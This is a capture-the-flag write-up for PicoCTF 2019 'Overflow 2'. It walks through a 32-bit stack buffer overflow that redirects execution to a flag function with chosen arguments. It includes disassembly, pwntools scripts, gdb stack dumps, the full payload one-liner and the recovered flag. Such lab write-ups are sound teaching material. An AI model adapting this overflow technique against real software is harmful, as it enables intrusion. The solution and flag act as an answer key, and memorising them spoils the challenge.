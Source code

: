 # Overflow 2 | PicoCTF2019
## Problem
Now try overwriting arguments. Can you get the flag from this program? You can find it in /problems/overflow-2_5_4db6d300831e973c59360066ec1cf0a4 on the shell server.
  
## Solution
Reference:  
- https://medium.com/@iseethieves/intro-to-rop-rop-emporium-split-9b2ec6d4db08

### 1. Read the code to understand what's going on.
In order for the program to output the flag, two arguments must be set for the flag function:
```c
void flag(unsigned int arg1, unsigned int arg2) {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
...
  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xDEADBEEF)
    return;
  if (arg2 != 0xC0DED00D)
    return;
  printf(buf);
}
```

### 2. Find the flag function
First of all, we need to jump to the flag function. Similar to what was done for Overload 1, we can first find the address for this function in which the flag is printed.
```bash
kali@kali:~/Desktop$ objdump -D vuln
...
 80485e3:       5d                      pop    %ebp
 80485e4:       eb 8a                   jmp    8048570 <register_tm_clones>

080485e6 <flag>:
 80485e6:       55                      push   %ebp
 80485e7:       89 e5                   mov    %esp,%ebp
 80485e9:       53                      push   %ebx
 80485ea:       83 ec 54                sub    $0x54,%esp
 80485ed:       e8 2e ff ff ff          call   8048520 <__x86.get_pc_thunk.bx>
 80485f2:       81 c3 0e 1a 00 00       add    $0x1a0e,%ebx
 80485f8:       83 ec 08                sub    $0x8,%esp
 80485fb:       8d 83 b0 e7 ff ff       lea    -0x1850(%ebx),%eax
 ...
```

### 3. Dynamic analysis
We can find out how to get to this function using GDB with pwntools.
```python
from pwn import *

p = process('./vuln')
gdb.attach(p)
print(p.recvline().decode())
p.sendline(cyclic(200))
```

When running we debug like so:
```bash
"./vuln": No such file or directory.
Attaching to process 2411
Reading symbols from /home/kali/Desktop/vuln...
(No debugging symbols found in /home/kali/Desktop/vuln)
Reading symbols from /lib32/libc.so.6...
(No debugging symbols found in /lib32/libc.so.6)
Reading symbols from /lib/ld-linux.so.2...
(No debugging symbols found in /lib/ld-linux.so.2)
0xf7f9e169 in __kernel_vsyscall ()
(gdb) ste
Ambiguous command "ste": step, stepi, stepping.
(gdb) step
Single stepping until exit from function __kernel_vsyscall,
which has no line number information.
0xf7e8c337 in read () from /lib32/libc.so.6
(gdb) step
Single stepping until exit from function read,
which has no line number information.
0xf7e1713b in _IO_file_underflow () from /lib32/libc.so.6
(gdb) step
Single stepping until exit from function _IO_file_underflow,
which has no line number information.
0xf7e184dc in _IO_default_uflow () from /lib32/libc.so.6
(gdb) step
Single stepping until exit from function _IO_default_uflow,
which has no line number information.
0xf7e0abb4 in gets () from /lib32/libc.so.6
(gdb) step
Single stepping until exit from function gets,
which has no line number information.
0x0804869a in vuln ()
(gdb) x/100x $sp
0xffb61eb0:     0xffb61ec0      0xf7f7cd67      0x00000001      0x08048685
0xffb61ec0:     0x61616161      0x61616162      0x61616163      0x61616164
0xffb61ed0:     0x61616165      0x61616166      0x61616167      0x61616168
0xffb61ee0:     0x61616169      0x6161616a      0x6161616b      0x6161616c
0xffb61ef0:     0x6161616d      0x6161616e      0x6161616f      0x61616170
0xffb61f00:     0x61616171      0x61616172      0x61616173      0x61616174
0xffb61f10:     0x61616175      0x61616176      0x61616177      0x61616178
0xffb61f20:     0x61616179      0x6261617a      0x62616162      0x62616163
0xffb61f30:     0x62616164      0x62616165      0x62616166      0x62616167
0xffb61f40:     0x62616168      0x62616169      0x6261616a      0x6261616b
0xffb61f50:     0x6261616c      0x6261616d      0x6261616e      0x6261616f
0xffb61f60:     0x62616170      0x62616171      0x62616172      0x62616173
0xffb61f70:     0x62616174      0x62616175      0x62616176      0x62616177 <--- saved eip (return function)
0xffb61f80:     0x62616178      0x62616179      0xffb62000      0x000003e8
0xffb61f90:     0xffb61fb0      0x00000000      0x00000000      0xf7dbaef1
0xffb61fa0:     0xf7f7c000      0xf7f7c000      0x00000000      0xf7dbaef1
0xffb61fb0:     0x00000001      0xffb62044      0xffb6204c      0xffb61fd4
0xffb61fc0:     0x00000001      0x00000000      0xf7f7c000      0x00000000
0xffb61fd0:     0xf7fc8000      0x00000000      0xf7f7c000      0xf7f7c000
0xffb61fe0:     0x00000000      0xe8f4a7e7      0x3396a1f7      0x00000000
0xffb61ff0:     0x00000000      0x00000000      0x00000001      0x080484d0
0xffb62000:     0x00000000      0xf7fb42c0      0xf7faf140      0x0804a000
0xffb62010:     0x00000001      0x080484d0      0x00000000      0x08048502
0xffb62020:     0x080486b5      0x00000001      0xffb62044      0x08048730
0xffb62030:     0x08048790      0xf7faf140      0xffb6203c      0x0000001c
(gdb) info frame
Stack level 0, frame at 0xffb61f80:
 eip = 0x804869a in vuln; saved eip = 0x62616177
 called by frame at 0xffb61f84
 Arglist at 0xffb61f78, args: 
 Locals at 0xffb61f78, Previous frame's sp is 0xffb61f80
 Saved registers:
  ebx at 0xffb61f74, ebp at 0xffb61f78, eip at 0xffb61f7c
```

### 4. Get to the flag function
Now we know where we need to go, we can overflow the buffer and overwrite eip, like so.
```python
p.sendline(b'A' * cyclic_find(0x62616177) + p32(0x080485e6))
```

Dubugger will now show the flag function being reached:
```bash
"./vuln": No such file or directory.
Attaching to process 2599
Reading symbols from /home/kali/Desktop/vuln...
(No debugging symbols found in /home/kali/Desktop/vuln)
Reading symbols from /lib32/libc.so.6...
(No debugging symbols found in /lib32/libc.so.6)
Reading symbols from /lib/ld-linux.so.2...
(No debugging symbols found in /lib/ld-linux.so.2)
0xf7f15169 in __kernel_vsyscall ()
(gdb) break flag
Breakpoint 1 at 0x80485ea
(gdb) continue
Continuing.

Breakpoint 1, 0x080485ea in flag ()
```

Now the flag function is being called, however it is not being supplied any arguments.  
We need to put arguments: 0xDEADBEEF and 0xC0DED00D on the stack in order for the flag to actually be printed.

### 5. Add the arguments
Arguments for a function are allocated below it's return address on the stack. Therefore we need to write them to the stack by supplying them after the return address.  

Once the flag function is called, the next item on the stack is the return address that would be followed for this function, so this also needs to be written past before we can drop the arguments in. During exploitation, this is what the stack ends up looking like:
```bash
0x0804869a in vuln ()
(gdb) x/100x $sp
0xffc2ee60:     0xffc2ee70      0xf7f25d67      0x00000001      0x08048685
0xffc2ee70:     0x41414141      0x41414141      0x41414141      0x41414141
0xffc2ee80:     0x41414141      0x41414141      0x41414141      0x41414141
0xffc2ee90:     0x41414141      0x41414141      0x41414141      0x41414141
0xffc2eea0:     0x41414141      0x41414141      0x41414141      0x41414141
0xffc2eeb0:     0x41414141      0x41414141      0x41414141      0x41414141
0xffc2eec0:     0x41414141      0x41414141      0x41414141      0x41414141
0xffc2eed0:     0x41414141      0x41414141      0x41414141      0x41414141
0xffc2eee0:     0x41414141      0x41414141      0x41414141      0x41414141
0xffc2eef0:     0x41414141      0x41414141      0x41414141      0x41414141
0xffc2ef00:     0x41414141      0x41414141      0x41414141      0x41414141
0xffc2ef10:     0x41414141      0x41414141      0x41414141      0x41414141
0xffc2ef20:     0x41414141      0x41414141      0x41414141      0x080485e6  <----- flag function address
0xffc2ef30:     0x41414141      0xdeadbeef      0xc0ded00d      0x00000300  <----- return address, arg1, arg2
```

### 6. Get the flag
First we can test this locally (see solve.py).
```bash
kali@kali:~/Desktop$ python solve.py 
[+] Starting local process './vuln': pid 2454
Please enter your string: 

[+] Receiving all data: Done (322B)
[*] Process './vuln' stopped with exit code 0 (pid 2454)
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�\x04AAAAﾭ����
Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.
```

Then on the server, the payload is provided as an escaped string (just for easy copy pasting).
```bash
jib1337@pico-2019-shell1:/problems/overflow-2_5_4db6d300831e973c59360066ec1cf0a4$ ls
flag.txt  vuln  vuln.c
jib1337@pico-2019-shell1:/problems/overflow-2_5_4db6d300831e973c59360066ec1cf0a4$ python -c "print('\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\xe6\x85\x04\x08\x41\x41\x41\x41\xef\xbe\xad\xde\x0d\xd0\xde\xc0')" | ./vuln
Please enter your string: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA���AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAﾭ�
picoCTF{arg5_and_r3turn5f5d490e6}Segmentation fault (core dumped)
```
